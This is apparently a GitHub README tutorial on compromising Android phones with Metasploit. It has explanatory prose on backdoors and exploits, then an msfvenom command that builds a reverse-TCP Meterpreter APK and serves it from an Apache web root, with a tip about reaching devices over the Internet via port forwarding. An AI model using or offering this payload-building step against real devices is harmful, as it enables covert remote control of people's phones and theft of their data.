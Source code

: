 # Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
# msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output

